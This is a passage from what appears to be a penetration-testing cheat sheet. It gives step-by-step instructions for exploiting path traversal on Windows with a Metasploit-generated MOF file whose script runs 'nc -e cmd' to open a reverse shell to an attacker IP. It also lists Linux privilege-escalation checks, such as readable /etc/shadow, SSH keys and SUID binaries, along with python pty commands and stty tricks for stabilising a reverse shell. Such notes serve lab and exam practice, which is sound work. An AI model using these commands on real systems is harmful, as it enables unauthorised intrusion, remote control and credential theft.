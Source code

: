 If you have path traversal plus a location with write access you can exploit that with a malicious MOF file:  
1. Generate MOF template with msf module "exploit/windows/smb/psexec":  
  msf5 exploit(windows/smb/psexec) > `irb`  
  [ ... ] >>`puts generate_mof("Specialclass","ToOpenReverseShell")`  
2. Copy it to a MOF and replace the following line  
  `ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"ToOpenReverseShell\");}`  
  with:  
  `ScriptText = "\ntry {var s = new ActiveXObject(\"Wscript.Shell\");\ns.Run(\"nc -e cmd 10.11.0.90 9001\");}`  
3. Transfer the nc.exe to the targets C:\windows\system32  
4. Start netcat listener on kali (same port as above in code!)
5. Transfer the MOF file:  
  `put filename.mof ../../../../windows/system32/wbem/mof/Specialclass.mof`  
  --> This will provide you with a reverse shell!

- Error "This program cannot be run in DOS mode."  
  When you get this error in a shell when trying to run uploaded files through FTP, try to first change the mode to binary, before you PUT the file:  
  `ftp> binary`  
  `200 Type set to I.`  
  `ftp> put accesschk.exe` 
  `[ ... ]` 
  `150 Opening BINARY mode data connection for accesschk.exe.`  
  `226 Transfer complete.`  
  
## PrivEsc Linux
- First look for obvious fails, like: 
  - writable etc/passwd or exports 
  - readable etc/shadow. ssh keys, bash history, cronjobs
  - capabilities --> `/sbin/getcap -r / 2>/dev/null`   
  - suid binaries --> `find / -perm -u=s -type f 2>/dev/null`  
    PrivEsc using suid: https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/  
  - editable/vulnerable service binaries  
- Good tools to aid are linpeas.sh, linux-exploit-suggester.sh, LinEnum, LinuxPrivChecker, PowerUp and pspy  

- ltrace: shows parameters of invoked functions and system calls.  
  example: `# ltrace -s 1000 ./filearchiver`  
  `__libc_start_main(0x80483f0, 1, 0xbfdf8a84, 0x8048440 <unfinished ...>`  
  `puts("Archiving files to server..."Archiving files to server...`  
  `)                                      = 36`  
  `system("scp -r file/tobearchived/* 100.101.110.100:/var/www/html/files/"`  
  --> this provides us with the information, that this tool runs "scp" without path!

- Spawn bash shell with python:  
  `python -c 'import pty;pty.spawn("/bin/bash")'`  
  (if python3 --> python3 -c "import pty; pty.spawn('/bin/bash')"`  
  `python -c 'import pty; pty.spawn("/bin/sh")'`  
  
  make the reverse shell more usable (with autocomplete etc.):  
  `ctrl + z`  
  `stty raw -echo; fg`  
